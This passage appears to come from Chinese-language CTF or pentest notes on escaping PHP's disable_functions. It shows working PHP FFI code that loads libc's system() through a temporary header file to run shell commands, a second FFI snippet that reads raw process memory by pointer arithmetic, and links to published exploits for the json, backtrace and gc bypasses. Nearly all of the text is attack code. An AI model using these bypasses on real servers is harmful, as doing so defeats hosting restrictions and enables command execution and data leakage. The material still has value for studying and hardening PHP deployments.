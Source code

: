 ```
$value=<<<EOF
#define FFI_SCOPE "DUMMY"
#define FFI_LIB "libc.so.6"
 
int system(const char *command);
EOF;

$tmpHandle = tmpfile();
$metaDatas = stream_get_meta_data($tmpHandle);
$tmpFilename = $metaDatas['uri'];
fwrite($tmpHandle, $value);
fseek($tmpHandle, 0);
echo fread($tmpHandle, 1024);
var_dump($tmpFilename);
fflush($tmpHandle );


$ffi=FFI::load($tmpFilename);
$ffi->system('echo bypass_disable_function > /tmp/testing');

fclose($tmpHandle);
```



### 内存泄露



```php
$c=FFI::load("/flag.h");
$b=FFI::cast("void *",FFI::new("int[1]",false));
$a=FFI::string($b-400000,400000);
var_dump($a);

```



##  php-json-bypass



https://github.com/mm0r1/exploits/tree/master/php-json-bypass



##  **php7-backtrace-bypass** 

 https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass 



##  **php7-gc-bypass** 

 https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass 
